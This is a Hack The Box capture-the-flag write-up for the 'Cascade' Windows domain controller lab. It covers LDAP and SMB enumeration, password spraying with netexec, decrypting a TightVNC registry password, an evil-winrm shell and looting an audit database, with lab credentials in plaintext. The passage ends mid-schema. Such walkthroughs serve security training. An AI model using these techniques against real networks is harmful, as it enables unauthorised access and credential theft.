

`Box: Windows`
`Level: Medium`
### Index
1. [`Box Info`](#`Box%20Info`)
2. [`Initial Nmap`](#`Initial%20Nmap`)
3. [`RPC Enumeration`](#`RPC%20Enumeration`)
	1. [`Mutate Password list using hashcat`](#`Mutate%20Password%20list%20using%20hashcat`)
4. [`LDAP Enumeration`](#`LDAP%20Enumeration`)
	1. [`RID Brute with the r.thompson Creds`](#`RID%20Brute%20with%20the%20r.thompson%20Creds`)
5. [`Further Enumerating SMB using the r.thompson Creds`](#`Further%20Enumerating%20SMB%20using%20the%20r.thompson%20Creds`)
6. [`Spidering SMB share using NetExec`](#`Spidering%20SMB%20share%20using%20NetExec`)
7. [`Cracking TightVNC Password`](#`Cracking%20TightVNC%20Password`)
8. [`Privilege Escalation`](#`Privilege%20Escalation`)
	1. [`Identify LogOn Scripts`](#`Identify%20LogOn%20Scripts`)
	2. [`SMB Enumeration with user s.smith`](#`SMB%20Enumeration%20with%20user%20s.smith`)
	3. [`Inspecting RunAudit.bat`](#`Inspecting%20RunAudit.bat`)
	4. [`Inspecting RunAudit.bat`](#`Inspecting%20RunAudit.bat`)
	5. [`Cracking AES-128 Password - Path 1`](#`Cracking%20AES-128%20Password%20-%20Path%201`)
	6. [`Cracking AES-128 Password - Path 2 - Debugging App`](#`Cracking%20AES-128%20Password%20-%20Path%202%20-%20Debugging%20App`)
	7. [`Cracking AES-128 Password - Path 2 - Coding - The OG Way`](#`Cracking%20AES-128%20Password%20-%20Path%202%20-%20Coding%20-%20The%20OG%20Way`)
	8. [`Shell as ArkSvc`](#`Shell%20as%20ArkSvc`)

### `Box Info`
```
Cascade is a medium difficulty Windows machine configured as a Domain Controller. LDAP anonymous binds are enabled, and enumeration yields the password for user `r.thompson`, which gives access to a `TightVNC` registry backup. The backup is decrypted to gain the password for `s.smith`. This user has access to a .NET executable, which after decompilation and source code analysis reveals the password for the `ArkSvc` account. This account belongs to the `AD Recycle Bin` group, and is able to view deleted Active Directory objects. One of the deleted user accounts is found to contain a hardcoded password, which can be reused to login as the primary domain administrator.
```
### `Initial Nmap`
```
# nmap -p- --min-rate=1000 -sC -sV -sT -T4 -A -Pn cascade.htb
PORT      STATE SERVICE       VERSION
53/tcp    open  domain        Microsoft DNS 6.1.7601 (1DB15D39) (Windows Server 2008 R2 SP1)
| dns-nsid: 
|_  bind.version: Microsoft DNS 6.1.7601 (1DB15D39)
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos (server time: 2024-10-29 06:21:16Z)
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: cascade.local, Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds?
636/tcp   open  tcpwrapped
3268/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: cascade.local, Site: Default-First-Site-Name)
3269/tcp  open  tcpwrapped
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
49154/tcp open  msrpc         Microsoft Windows RPC
49155/tcp open  msrpc         Microsoft Windows RPC
49157/tcp open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
49158/tcp open  msrpc         Microsoft Windows RPC
49165/tcp open  msrpc         Microsoft Windows RPC
Service Info: Host: CASC-DC1; OS: Windows; CPE: cpe:/o:microsoft:windows_server_2008:r2:sp1, cpe:/o:microsoft:windows
```

Adding `CASC-DC1.cascade.local` into `/etc/hosts`

### `RPC Enumeration`
The following screenshots for the RPC enumeration were taken from the IPPSEC Video as when I try to replicate, It didn't work on my machine. I was keep getting NT_STATUS_LOGON_FAILURE for the port 135. I'm putting it here
```
# rpcclient $> enumdomusers
```


This was list out all the AD users using RPC Enumeration. Now let's the last login time of the user 
```
# rpcclient $> queryuser 0x452  #where 0x452 is a RID of arksvc user
```

###### `Mutate Password list using hashcat`
Let's say you have a possible couple of passwords. And you want to mutate a list from those passwords. You can do that using hashcat.
```
┌──(root㉿kali)-[/home/ringbuffer/Downloads/Cascade.htb]
└─# cat password 
password$

#Mutating the above password list (Each line should end with $ to comply with Hashcat Rule.)
──(root㉿kali)-[/home/ringbuffer/Downloads/Cascade.htb]
└─# hashcat --force password -r /usr/share/hashcat/rules/best64.rule --stdout > mutate_password

┌──(root㉿kali)-[/home/ringbuffer/Downloads/Cascade.htb]
└─# cat mutate_password 
password$
$drowssap
PASSWORD$
Password$
password$0
password$1
<!---------------Snipped--------------!>
```

### `LDAP Enumeration`
```
# ldapsearch -H ldap://10.10.10.182  -x -s base -b '' "(objectClass=*)" "*"
# extended LDIF
#
# LDAPv3
# base <> with scope baseObject
# filter: (objectClass=*)
# requesting: * 
#
#
dn:
currentTime: 20241029063029.0Z
subschemaSubentry: CN=Aggregate,CN=Schema,CN=Configuration,DC=cascade,DC=local
dsServiceName: CN=NTDS Settings,CN=CASC-DC1,CN=Servers,CN=Default-First-Site-N
 ame,CN=Sites,CN=Configuration,DC=cascade,DC=local
namingContexts: DC=cascade,DC=local
namingContexts: CN=Configuration,DC=cascade,DC=local
namingContexts: CN=Schema,CN=Configuration,DC=cascade,DC=local
namingContexts: DC=DomainDnsZones,DC=cascade,DC=local
namingContexts: DC=ForestDnsZones,DC=cascade,DC=local
defaultNamingContext: DC=cascade,DC=local
schemaNamingContext: CN=Schema,CN=Configuration,DC=cascade,DC=local
configurationNamingContext: CN=Configuration,DC=cascade,DC=local
rootDomainNamingContext: DC=cascade,DC=local
```

```
┌──(root㉿kali)-[/home/ringbuffer/Downloads/Cascade.htb]
└─# netexec ldap 10.10.10.182 -d 'cascade.local' -u '' -p '' --password-not-required 
SMB         10.10.10.182    445    CASC-DC1         [*] Windows 7 / Server 2008 R2 Build 7601 x64 (name:CASC-DC1) (domain:cascade.local) (signing:True) (SMBv1:False)
LDAP        10.10.10.182    389    CASC-DC1         [+] cascade.local\: 
LDAP        10.10.10.182    389    CASC-DC1         User: a.turnbull Status: enabled
LDAP        10.10.10.182    389    CASC-DC1         User: CascGuest Status: disabled
```

Seems like the user `a.turnbull` is enabled and doesn't need a password. Further enumeration with `jxplorer`, I discover a password for the user r.thympson.
Its base64 encoded
```
# echo 'clk0bjVldmE=' | base64 -d       
rY4n5eva
```
###### `RID Brute with the r.thompson Creds`
```
# netexec smb 10.10.10.182 -d 'cascade.local' -u 'r.thompson' -p 'rY4n5eva' --rid-brute
SMB         10.10.10.182    445    CASC-DC1         [*] Windows 7 / Server 2008 R2 Build 7601 x64 (name:CASC-DC1) (domain:cascade.local) (signing:True) (SMBv1:False)
SMB         10.10.10.182    445    CASC-DC1         [+] cascade.local\r.thompson:rY4n5eva 
<!------------------------------------------------ SNIPPED ------------------------------------------------------------------>
SMB         10.10.10.182    445    CASC-DC1         1106: CASCADE\arksvc (SidTypeUser)
SMB         10.10.10.182    445    CASC-DC1         1107: CASCADE\s.smith (SidTypeUser)
SMB         10.10.10.182    445    CASC-DC1         1109: CASCADE\r.thompson (SidTypeUser)
SMB         10.10.10.182    445    CASC-DC1         1111: CASCADE\util (SidTypeUser)
SMB         10.10.10.182    445    CASC-DC1         1113: CASCADE\IT (SidTypeAlias)
SMB         10.10.10.182    445    CASC-DC1         1114: CASCADE\Production (SidTypeAlias)
SMB         10.10.10.182    445    CASC-DC1         1115: CASCADE\HR (SidTypeAlias)
SMB         10.10.10.182    445    CASC-DC1         1116: CASCADE\j.wakefield (SidTypeUser)
SMB         10.10.10.182    445    CASC-DC1         1119: CASCADE\AD Recycle Bin (SidTypeAlias)
SMB         10.10.10.182    445    CASC-DC1         1120: CASCADE\Backup (SidTypeAlias)
SMB         10.10.10.182    445    CASC-DC1         1121: CASCADE\s.hickson (SidTypeUser)
SMB         10.10.10.182    445    CASC-DC1         1122: CASCADE\j.goodhand (SidTypeUser)
SMB         10.10.10.182    445    CASC-DC1         1123: CASCADE\Temps (SidTypeAlias)
SMB         10.10.10.182    445    CASC-DC1         1124: CASCADE\a.turnbull (SidTypeUser)
SMB         10.10.10.182    445    CASC-DC1         1125: CASCADE\WinRMRemoteWMIUsers__ (SidTypeAlias)
SMB         10.10.10.182    445    CASC-DC1         1126: CASCADE\Remote Management Users (SidTypeAlias)
SMB         10.10.10.182    445    CASC-DC1         1127: CASCADE\e.crowe (SidTypeUser)
SMB         10.10.10.182    445    CASC-DC1         1128: CASCADE\b.hanson (SidTypeUser)
SMB         10.10.10.182    445    CASC-DC1         1129: CASCADE\d.burman (SidTypeUser)
SMB         10.10.10.182    445    CASC-DC1         1130: CASCADE\BackupSvc (SidTypeUser)
SMB         10.10.10.182    445    CASC-DC1         1132: CASCADE\Factory (SidTypeAlias)
SMB         10.10.10.182    445    CASC-DC1         1133: CASCADE\Finance (SidTypeAlias)
SMB         10.10.10.182    445    CASC-DC1         1134: CASCADE\j.allen (SidTypeUser)
SMB         10.10.10.182    445    CASC-DC1         1135: CASCADE\i.croft (SidTypeUser)
SMB         10.10.10.182    445    CASC-DC1         1137: CASCADE\Audit Share (SidTypeAlias)
SMB         10.10.10.182    445    CASC-DC1         1138: CASCADE\Data Share (SidTypeAlias)
```

Let's see if any other user is using the same password. We've seen this is [Cicada HTB](https://github.com/ring-buffer/Red_Team_Notes/blob/main/Windows-HTB-Boxes/Cicada%20HTB.md)  Making users.txt
```
# cat users.txt
cascade.local\arksvc
SMB cascade.local\s.smith
cascade.local\r.thompson
cascade.local\util
cascade.local\j.wakefield
cascade.local\s.hickson
cascade.local\j.goodhand
cascade.local\a.turnbull
cascade.local\e.crowe
cascade.local\b.hanson
cascade.local\d.burman
cascade.local\BackupSvc
cascade.local\j.allen
cascade.local\i.croft
cascade.local\CascGuest
```


```
# netexec smb 10.10.10.182 -u users -p 'rY4n5eva' --continue-on-success                                               
SMB         10.10.10.182    445    CASC-DC1         [*] Windows 7 / Server 2008 R2 Build 7601 x64 (name:CASC-DC1) (domain:cascade.local) (signing:True) (SMBv1:False)
SMB         10.10.10.182    445    CASC-DC1         [-] cascade.local\arksvc:rY4n5eva STATUS_LOGON_FAILURE 
SMB         10.10.10.182    445    CASC-DC1         [-] SMB cascade.local\s.smith:rY4n5eva STATUS_LOGON_FAILURE 
SMB         10.10.10.182    445    CASC-DC1         [+] cascade.local\r.thompson:rY4n5eva 
SMB         10.10.10.182    445    CASC-DC1         [-] cascade.local\util:rY4n5eva STATUS_LOGON_FAILURE 
SMB         10.10.10.182    445    CASC-DC1         [-] cascade.local\j.wakefield:rY4n5eva STATUS_LOGON_FAILURE 
SMB         10.10.10.182    445    CASC-DC1         [-] cascade.local\s.hickson:rY4n5eva STATUS_LOGON_FAILURE 
SMB         10.10.10.182    445    CASC-DC1         [-] cascade.local\j.goodhand:rY4n5eva STATUS_LOGON_FAILURE 
SMB         10.10.10.182    445    CASC-DC1         [-] cascade.local\a.turnbull:rY4n5eva STATUS_LOGON_FAILURE 
SMB         10.10.10.182    445    CASC-DC1         [-] cascade.local\e.crowe:rY4n5eva STATUS_LOGON_FAILURE 
SMB         10.10.10.182    445    CASC-DC1         [-] cascade.local\b.hanson:rY4n5eva STATUS_LOGON_FAILURE 
SMB         10.10.10.182    445    CASC-DC1         [-] cascade.local\d.burman:rY4n5eva STATUS_LOGON_FAILURE 
SMB         10.10.10.182    445    CASC-DC1         [-] cascade.local\BackupSvc:rY4n5eva STATUS_LOGON_FAILURE 
SMB         10.10.10.182    445    CASC-DC1         [-] cascade.local\j.allen:rY4n5eva STATUS_LOGON_FAILURE 
SMB         10.10.10.182    445    CASC-DC1         [-] cascade.local\i.croft:rY4n5eva STATUS_LOGON_FAILURE 
SMB         10.10.10.182    445    CASC-DC1         [-] cascade.local\CascGuest:rY4n5eva STATUS_LOGON_FAILURE
```
No one other than user `r.thompson` uses that password.
###### `Further Enumerating SMB using the r.thompson Creds`
```
# netexec smb 10.10.10.182 -d 'cascade.local' -u 'r.thompson' -p 'rY4n5eva' --shares   
SMB         10.10.10.182    445    CASC-DC1         [*] Windows 7 / Server 2008 R2 Build 7601 x64 (name:CASC-DC1) (domain:cascade.local) (signing:True) (SMBv1:False)
SMB         10.10.10.182    445    CASC-DC1         [+] cascade.local\r.thompson:rY4n5eva 
SMB         10.10.10.182    445    CASC-DC1         [*] Enumerated shares
SMB         10.10.10.182    445    CASC-DC1         Share           Permissions     Remark
SMB         10.10.10.182    445    CASC-DC1         -----           -----------     ------
SMB         10.10.10.182    445    CASC-DC1         ADMIN$                          Remote Admin
SMB         10.10.10.182    445    CASC-DC1         Audit$                          
SMB         10.10.10.182    445    CASC-DC1         C$                              Default share
SMB         10.10.10.182    445    CASC-DC1         Data            READ            
SMB         10.10.10.182    445    CASC-DC1         IPC$                            Remote IPC
SMB         10.10.10.182    445    CASC-DC1         NETLOGON        READ            Logon server share 
SMB         10.10.10.182    445    CASC-DC1         print$          READ            Printer Drivers
SMB         10.10.10.182    445    CASC-DC1         SYSVOL          READ            Logon server share 
```
###### `Spidering SMB share using NetExec`
```
┌──(root㉿kali)-[/home/ringbuffer/Downloads/Cascade.htb]
└─# netexec smb 10.10.10.182 -d 'cascade.local' -u 'r.thompson' -p 'rY4n5eva' --spider Data
SMB         10.10.10.182    445    CASC-DC1         [*] Windows 7 / Server 2008 R2 Build 7601 x64 (name:CASC-DC1) (domain:cascade.local) (signing:True) (SMBv1:False)
SMB         10.10.10.182    445    CASC-DC1         [+] cascade.local\r.thompson:rY4n5eva 
SMB         10.10.10.182    445    CASC-DC1         [*] Started spidering
SMB         10.10.10.182    445    CASC-DC1         [*] Spidering .
SMB         10.10.10.182    445    CASC-DC1         [*] Done spidering (Completed in 3.288020133972168)
```
Nothing Interesting comes out of it. Trying it out another way.
```
# netexec smb 10.10.10.182 -d 'cascade.local' -u 'r.thompson' -p 'rY4n5eva' -M spider_plus
└─# netexec smb 10.10.10.182 -d 'cascade.local' -u 'r.thompson' -p 'rY4n5eva' -M spider_plus          
SMB         10.10.10.182    445    CASC-DC1         [*] Windows 7 / Server 2008 R2 Build 7601 x64 (name:CASC-DC1) (domain:cascade.local) (signing:True) (SMBv1:False)
SMB         10.10.10.182    445    CASC-DC1         [+] cascade.local\r.thompson:rY4n5eva 
SPIDER_PLUS 10.10.10.182    445    CASC-DC1         [*] Started module spidering_plus with the following options:
SPIDER_PLUS 10.10.10.182    445    CASC-DC1         [*]  DOWNLOAD_FLAG: False
SPIDER_PLUS 10.10.10.182    445    CASC-DC1         [*]     STATS_FLAG: True
SPIDER_PLUS 10.10.10.182    445    CASC-DC1         [*] EXCLUDE_FILTER: ['print$', 'ipc$']
SPIDER_PLUS 10.10.10.182    445    CASC-DC1         [*]   EXCLUDE_EXTS: ['ico', 'lnk']
SPIDER_PLUS 10.10.10.182    445    CASC-DC1         [*]  MAX_FILE_SIZE: 50 KB
SPIDER_PLUS 10.10.10.182    445    CASC-DC1         [*]  OUTPUT_FOLDER: /tmp/nxc_hosted/nxc_spider_plus
SMB         10.10.10.182    445    CASC-DC1         [*] Enumerated shares
SMB         10.10.10.182    445    CASC-DC1         Share           Permissions     Remark
SMB         10.10.10.182    445    CASC-DC1         -----           -----------     ------
SMB         10.10.10.182    445    CASC-DC1         ADMIN$                          Remote Admin
SMB         10.10.10.182    445    CASC-DC1         Audit$                          
SMB         10.10.10.182    445    CASC-DC1         C$                              Default share
SMB         10.10.10.182    445    CASC-DC1         Data            READ            
SMB         10.10.10.182    445    CASC-DC1         IPC$                            Remote IPC
SMB         10.10.10.182    445    CASC-DC1         NETLOGON        READ            Logon server share 
SMB         10.10.10.182    445    CASC-DC1         print$          READ            Printer Drivers
SMB         10.10.10.182    445    CASC-DC1         SYSVOL          READ            Logon server share 
SPIDER_PLUS 10.10.10.182    445    CASC-DC1         [+] Saved share-file metadata to "/tmp/nxc_hosted/nxc_spider_plus/10.10.10.182.json".
SPIDER_PLUS 10.10.10.182    445    CASC-DC1         [*] SMB Shares:           8 (ADMIN$, Audit$, C$, Data, IPC$, NETLOGON, print$, SYSVOL)
SPIDER_PLUS 10.10.10.182    445    CASC-DC1         [*] SMB Readable Shares:  4 (Data, NETLOGON, print$, SYSVOL)
SPIDER_PLUS 10.10.10.182    445    CASC-DC1         [*] SMB Filtered Shares:  1
SPIDER_PLUS 10.10.10.182    445    CASC-DC1         [*] Total folders found:  58
SPIDER_PLUS 10.10.10.182    445    CASC-DC1         [*] Total files found:    20
SPIDER_PLUS 10.10.10.182    445    CASC-DC1         [*] File size average:    1.07 KB
SPIDER_PLUS 10.10.10.182    445    CASC-DC1         [*] File size min:        6 B
SPIDER_PLUS 10.10.10.182    445    CASC-DC1         [*] File size max:        5.83 KB
```
Look at your data at `OUTPUT_FOLDER: /tmp/nxc_hosted/nxc_spider_plus`

Let's login to Data. Let's login using `smbclient`

```
# smbclient -U 'CASC-DC1.cascade.local\r.thompson%rY4n5eva' //10.10.10.182/Data  
Try "help" to get a list of possible commands.
smb: \> dir
  .                                   D        0  Sun Jan 26 22:27:34 2020
  ..                                  D        0  Sun Jan 26 22:27:34 2020
  Contractors                         D        0  Sun Jan 12 20:45:11 2020
  Finance                             D        0  Sun Jan 12 20:45:06 2020
  IT                                  D        0  Tue Jan 28 13:04:51 2020
  Production                          D        0  Sun Jan 12 20:45:18 2020
  Temps                               D        0  Sun Jan 12 20:45:15 2020
```

**Notice: how --spider Data with netexec doesn't bring anything but we can still login with smbclient and explore the folders**

I downloaded couple of files from the `IT` folder and these files are as follows
```
# ls                                                                                               
 ArkAdRecycleBin.log   dcdiag.log   Meeting_Notes_June_2018.html  'VNC Install.reg'
```
Reviewing the `Meeting_Notes_June_2018.html` reveals the username `TempAdmin`
```
From:                                         Steve Smith
To:                                               IT (Internal)
Sent:                                           14 June 2018 14:07
Subject:                                     Meeting Notes

For anyone that missed yesterday’s meeting (I’m looking at you Ben). Main points are below:

-- New production network will be going live on Wednesday so keep an eye out for any issues.
-- We will be using a temporary account to perform all tasks related to the network migration and this account will be deleted at the end of 2018 once the migration is complete. This will allow us to identify actions related to the migration in security logs etc. Username is TempAdmin (password is the same as the normal admin account password).

-- The winner of the “Best GPO” competition will be announced on Friday so get your submissions in soon.
Steve
```
The user `Steve Smith` sent this email to IT. Another file is `ArkAdRecycleBin.log`

```
# cat ArkAdRecycleBin.log                                      
1/10/2018 15:43 [MAIN_THREAD]   ** STARTING - ARK AD RECYCLE BIN MANAGER v1.2.2 **
1/10/2018 15:43 [MAIN_THREAD]   Validating settings...
1/10/2018 15:43 [MAIN_THREAD]   Error: Access is denied
1/10/2018 15:43 [MAIN_THREAD]   Exiting with error code 5
2/10/2018 15:56 [MAIN_THREAD]   ** STARTING - ARK AD RECYCLE BIN MANAGER v1.2.2 **
2/10/2018 15:56 [MAIN_THREAD]   Validating settings...
2/10/2018 15:56 [MAIN_THREAD]   Running as user CASCADE\ArkSvc
2/10/2018 15:56 [MAIN_THREAD]   Moving object to AD recycle bin CN=Test,OU=Users,OU=UK,DC=cascade,DC=local
2/10/2018 15:56 [MAIN_THREAD]   Successfully moved object. New location CN=Test\0ADEL:ab073fb7-6d91-4fd1-b877-817b9e1b0e6d,CN=Deleted Objects,DC=cascade,DC=local
2/10/2018 15:56 [MAIN_THREAD]   Exiting with error code 0
8/12/2018 12:22 [MAIN_THREAD]   ** STARTING - ARK AD RECYCLE BIN MANAGER v1.2.2 **
8/12/2018 12:22 [MAIN_THREAD]   Validating settings...
8/12/2018 12:22 [MAIN_THREAD]   Running as user CASCADE\ArkSvc
8/12/2018 12:22 [MAIN_THREAD]   Moving object to AD recycle bin CN=TempAdmin,OU=Users,OU=UK,DC=cascade,DC=local
8/12/2018 12:22 [MAIN_THREAD]   Successfully moved object. New location CN=TempAdmin\0ADEL:f0cc344d-31e0-4866-bceb-a842791ca059,CN=Deleted Objects,DC=cascade,DC=local
8/12/2018 12:22 [MAIN_THREAD]   Exiting with error code 0
```
ARK AD Recycle Bin Manager Version 1.2.2 Identified from the logs. Here's some interesting observations. 

What does `CN=TempAdmin\0ADEL:f0cc344d-31e0-4866-bceb-a842791ca059` mean ?
CN=TempAdmin is a common name of the Object
\0ADel = treat this object as deleted
:f0.....-.....-.... = unique Identifier of the particular object. 

Let's checkout VNC Install.reg. (this file show ugly text with nano and other text editors but cat works fine.)
```
# cat VNC\ Install.reg                    
��Windows Registry Editor Version 5.00

[HKEY_LOCAL_MACHINE\SOFTWARE\TightVNC]

[HKEY_LOCAL_MACHINE\SOFTWARE\TightVNC\Server]
"ExtraPorts"=""
"QueryTimeout"=dword:0000001e
"QueryAcceptOnTimeout"=dword:00000000
"LocalInputPriorityTimeout"=dword:00000003
"LocalInputPriority"=dword:00000000
"BlockRemoteInput"=dword:00000000
"BlockLocalInput"=dword:00000000
"IpAccessControl"=""
"RfbPort"=dword:0000170c
"HttpPort"=dword:000016a8
"DisconnectAction"=dword:00000000
"AcceptRfbConnections"=dword:00000001
"UseVncAuthentication"=dword:00000001
"UseControlAuthentication"=dword:00000000
"RepeatControlAuthentication"=dword:00000000
"LoopbackOnly"=dword:00000000
"AcceptHttpConnections"=dword:00000001
"LogLevel"=dword:00000000
"EnableFileTransfers"=dword:00000001
"RemoveWallpaper"=dword:00000001
"UseD3D"=dword:00000001
"UseMirrorDriver"=dword:00000001
"EnableUrlParams"=dword:00000001
"Password"=hex:6b,cf,2a,4b,6e,5a,ca,0f
"AlwaysShared"=dword:00000000
"NeverShared"=dword:00000000
"DisconnectClients"=dword:00000001
"PollingInterval"=dword:000003e8
"AllowLoopback"=dword:00000000
"VideoRecognitionInterval"=dword:00000bb8
"GrabTransparentWindows"=dword:00000001
"SaveLogToAllUsersPath"=dword:00000000
"RunControlInterface"=dword:00000001
"IdleTimeout"=dword:00000000
"VideoClasses"=""
"VideoRects"=""
```

We have a Password in hex. Interesting things from the above file
```
[HKEY_LOCAL_MACHINE\SOFTWARE\TightVNC\Server]
"Password"=hex:6b,cf,2a,4b,6e,5a,ca,0f
```
###### `Cracking TightVNC Password`
This GitHub Repo [VNC Password Decryptor vncpwd](https://github.com/jeroennijhof/vncpwd) was used to decrypted the password. Here's the process. 
```
┌──(root㉿kali)-[/home/ringbuffer/Downloads/Cascade.htb]
└─# echo '6bcf2a4b6e5aca0f' | xxd -r -p > vnc_pass    # Notice the '6bcf2a4b6e5aca0f' is the HEX value we obtained from the file.

# git clone https://github.com/jeroennijhof/vncpwd.git
┌──(root㉿kali)-[/home/ringbuffer/Downloads/Cascade.htb/vncpwd]
└─# gcc vncpwd.c -o vncpwd

┌──(root㉿kali)-[/home/ringbuffer/Downloads/Cascade.htb/vncpwd]
└─# ./vncpwd ../vnc_pass 
Password: sT333ve2
```
We got another password. Let's see if any user uses this password.

```
┌──(root㉿kali)-[/home/ringbuffer/Downloads/Cascade.htb]
└─# netexec smb 10.10.10.182 -u users -p 'sT333ve2' --continue-on-success
SMB         10.10.10.182    445    CASC-DC1         [*] Windows 7 / Server 2008 R2 Build 7601 x64 (name:CASC-DC1) (domain:cascade.local) (signing:True) (SMBv1:False)
SMB         10.10.10.182    445    CASC-DC1         [-] cascade.local\arksvc:sT333ve2 STATUS_LOGON_FAILURE 
SMB         10.10.10.182    445    CASC-DC1         [+] SMB cascade.local\s.smith:sT333ve2 
SMB         10.10.10.182    445    CASC-DC1         [-] cascade.local\r.thompson:sT333ve2 STATUS_LOGON_FAILURE 
SMB         10.10.10.182    445    CASC-DC1         [-] cascade.local\util:sT333ve2 STATUS_LOGON_FAILURE 
SMB         10.10.10.182    445    CASC-DC1         [-] cascade.local\j.wakefield:sT333ve2 STATUS_LOGON_FAILURE 
SMB         10.10.10.182    445    CASC-DC1         [-] cascade.local\s.hickson:sT333ve2 STATUS_LOGON_FAILURE 
SMB         10.10.10.182    445    CASC-DC1         [-] cascade.local\j.goodhand:sT333ve2 STATUS_LOGON_FAILURE 
SMB         10.10.10.182    445    CASC-DC1         [-] cascade.local\a.turnbull:sT333ve2 STATUS_LOGON_FAILURE 
SMB         10.10.10.182    445    CASC-DC1         [-] cascade.local\e.crowe:sT333ve2 STATUS_LOGON_FAILURE 
SMB         10.10.10.182    445    CASC-DC1         [-] cascade.local\b.hanson:sT333ve2 STATUS_LOGON_FAILURE 
SMB         10.10.10.182    445    CASC-DC1         [-] cascade.local\d.burman:sT333ve2 STATUS_LOGON_FAILURE 
SMB         10.10.10.182    445    CASC-DC1         [-] cascade.local\BackupSvc:sT333ve2 STATUS_LOGON_FAILURE 
SMB         10.10.10.182    445    CASC-DC1         [-] cascade.local\j.allen:sT333ve2 STATUS_LOGON_FAILURE 
SMB         10.10.10.182    445    CASC-DC1         [-] cascade.local\i.croft:sT333ve2 STATUS_LOGON_FAILURE 
SMB         10.10.10.182    445    CASC-DC1         [-] cascade.local\CascGuest:sT333ve2 STATUS_LOGON_FAILURE
```

The user `s.smith` uses this password.

```
┌──(root㉿kali)-[/home/ringbuffer/Downloads/Cascade.htb]
└─# evil-winrm -i 10.10.10.182 -u 's.smith' -p 'sT333ve2'          
 
Evil-WinRM shell v3.5
 
Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine
 
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
 
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\s.smith\Documents> cd ..
*Evil-WinRM* PS C:\Users\s.smith> cd Desktop
*Evil-WinRM* PS C:\Users\s.smith\Desktop> type user.txt
adbb273db0****************
```

Got the user flag.

### `Privilege Escalation`

###### `Identify LogOn Scripts`
First Let's see if there are any LogOn Scripts using `net user` command
```
*Evil-WinRM* PS C:\ProgramData\temp> net user s.smith
User name                    s.smith
Full Name                    Steve Smith
Comment
User's comment
Country code                 000 (System Default)
Account active               Yes
Account expires              Never

Password last set            1/28/2020 7:58:05 PM
Password expires             Never
Password changeable          1/28/2020 7:58:05 PM
Password required            Yes
User may change password     No

Workstations allowed         All
Logon script                 MapAuditDrive.vbs
User profile
Home directory
Last logon                   1/28/2020 11:26:39 PM
Logon hours allowed          All
Local Group Memberships      *Audit Share          *IT 
							 *Remote Management Use
Global Group memberships     *Domain Users
The command completed successfully.
```

The user s.smith has a LogOn Script `MapAuditDrive.vbs`. Let's try to figure out where this script is located.
```
*Evil-WinRM* PS C:\> Get-ChildItem -Path C:\ -Filter MapAuditDrive.vbs -Recurse -ErrorAction SilentlyContinue -Force

    Directory: C:\Windows\SYSVOL\domain\scripts

Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-a----        1/15/2020   9:50 PM            258 MapAuditDrive.vbs

    Directory: C:\Windows\SYSVOL\sysvol\cascade.local\scripts

Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-a----        1/15/2020   9:50 PM            258 MapAuditDrive.vbs
```
The script is located at `C:\Windows\SYSVOL\domain\scripts`.

```
*Evil-WinRM* PS C:\> type C:\Windows\SYSVOL\domain\scripts\MapAuditDrive.vbs
'MapAuditDrive.vbs
Option Explicit
Dim oNetwork, strDriveLetter, strRemotePath
strDriveLetter = "F:"
strRemotePath = "\\CASC-DC1\Audit$"
Set oNetwork = CreateObject("WScript.Network")
oNetwork.MapNetworkDrive strDriveLetter, strRemotePath
WScript.Quit
```

###### `SMB Enumeration with user s.smith`
Seems like now we should try accessing the `Audit$` share with the user `s.smith` credentials. I should have done it earlier. Let's explore the `Audit$` Share.
```
# smbclient -U 'cascade.local\s.smith%sT333ve2' //10.10.10.182/Audit$
Try "help" to get a list of possible commands.
smb: \> dir
  .                                   D        0  Wed Jan 29 13:01:26 2020
  ..                                  D        0  Wed Jan 29 13:01:26 2020
  CascAudit.exe                      An    13312  Tue Jan 28 16:46:51 2020
  CascCrypto.dll                     An    12288  Wed Jan 29 13:00:20 2020
  DB                                  D        0  Tue Jan 28 16:40:59 2020
  RunAudit.bat                        A       45  Tue Jan 28 18:29:47 2020
  System.Data.SQLite.dll              A   363520  Sun Oct 27 02:38:36 2019
  System.Data.SQLite.EF6.dll          A   186880  Sun Oct 27 02:38:38 2019
  x64                                 D        0  Sun Jan 26 17:25:27 2020
  x86                                 D        0  Sun Jan 26 17:25:27 2020
```

Grabbing All the above files along with `DB\Audit.db` and `x64\SQLite.Interop.dll`. 

###### `Inspecting RunAudit.bat`
```
# cat RunAudit.bat                                             
CascAudit.exe "\\CASC-DC1\Audit$\DB\Audit.db" 
```

###### `Inspecting DB\Audit.db with Sqlite3`
```
# sqlite3 Audit.db 
sqlite> .tables
DeletedUserAudit  Ldap              Misc

sqlite> .databases
main: /home/ringbuffer/Downloads/Cascade.htb/Audit.db r/w
sqlite> .schema
CREATE TABLE IF NOT EXISTS "Ldap" (
        "Id"    INTEGER PRIMARY KEY AUTOINCREMENT,
        "uname" TEXT,
        "pwd"   TEXT,
        "domain"        TEXT
);
CREATE TABLE sqlite_sequence(name,seq);
CREATE TABLE IF NOT EXISTS "Misc" (
        "Id"    INTEGER PRIMARY KEY AUTOINCREMENT,
        "Ext1"  TEXT,
        "Ext2"  TEXT
);
CREATE TABLE IF NOT EXISTS "DeletedUserAudit" (
